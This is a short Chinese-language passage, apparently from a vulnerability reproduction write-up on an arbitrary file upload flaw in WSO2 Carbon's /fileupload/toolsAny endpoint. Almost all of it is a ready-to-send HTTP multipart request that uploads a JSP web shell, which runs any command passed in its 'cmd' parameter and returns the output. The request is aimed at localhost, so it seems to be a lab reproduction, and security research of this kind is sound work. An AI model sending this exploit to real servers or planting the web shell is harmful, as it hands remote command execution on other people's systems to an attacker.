 最后来到出现漏洞的位置 `org.wso2.carbon.ui.transports.fileupload.ToolsAnyFileUploadExecutor#execute`

这里我们构造请求包，上传文件

```
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="1.jsp"; filename="1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![](/images/202205241642011.png)
